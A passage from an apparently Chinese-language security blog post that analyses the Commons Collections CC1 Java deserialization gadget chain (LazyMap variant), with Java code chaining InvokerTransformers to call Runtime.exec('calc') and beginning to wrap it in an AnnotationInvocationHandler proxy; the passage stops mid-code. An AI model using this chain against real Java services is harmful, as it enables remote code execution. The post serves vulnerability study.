 其他部分都是一样的，这里主要分析触发 `transform` 的不同方式

![image-20250808175641557](https://mingzu.oss-cn-hongkong.aliyuncs.com/blog/20250808175641604.png)

很明显触发 `transform()` 的条件是 `Lazymap.get(key)` 时传入一个不存在的 `key`

简单测试一下

```Java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
        new InvokerTransformer("exec", new Class[] {String.class}, new String[] {"calc"}),
};

Transformer transformerChain = new ChainedTransformer(transformers);

Map<Object, Object> innerMap = new HashMap<>();

Map<Object, Object> outerMap = LazyMap.decorate(innerMap, transformerChain);

//outerMap.get("value");
outerMap.get("baka");
```

成功弹计算器，那如何调用到 `Lazymap.get()` 呢？

首先看到 `AnnotationInvocationHandler` 的 `readObject()` 方法中调用了 `get()` ，但是否可控呢？

![image-20250808181444439](https://mingzu.oss-cn-hongkong.aliyuncs.com/blog/20250808181444576.png)

顺着往前找，调用的是 `memberTypes()` 的 `get()` ，而 `memberTypes()` 本质上是 `AnnotationType` 在运行时扫描注解类时返回的一张按 `元素名->返回类型` 的只读映射，不可控

但我们可以另外找到 `AnnotationInvocationHandler` 的 `invoke()` 方法中调用了 `memberValues.get()` ，且 `memberValues` 外部可控

![image-20250808181857475](https://mingzu.oss-cn-hongkong.aliyuncs.com/blog/20250808181857540.png)

要执行到这一步 `get()` ，`AnnotationInvocationHandler` 执行的方法要是无参的

而在 `readObject()` 中恰好有无参方法的执行

![image-20250808182637558](https://mingzu.oss-cn-hongkong.aliyuncs.com/blog/20250808182637602.png)

先进行测试，将 `AnnotationInvocationHandler` 动态代理，执行无参方法，从而调用 `LazyMap.get()` ，触发链子执行

```Java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
        new InvokerTransformer("exec", new Class[] {String.class}, new String[] {"calc"}),
        };

Transformer transformerChain = new ChainedTransformer(transformers);

Map<Object, Object> innerMap = new HashMap<>();
Map<Object, Object> outerMap = LazyMap.decorate(innerMap, transformerChain);

Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
```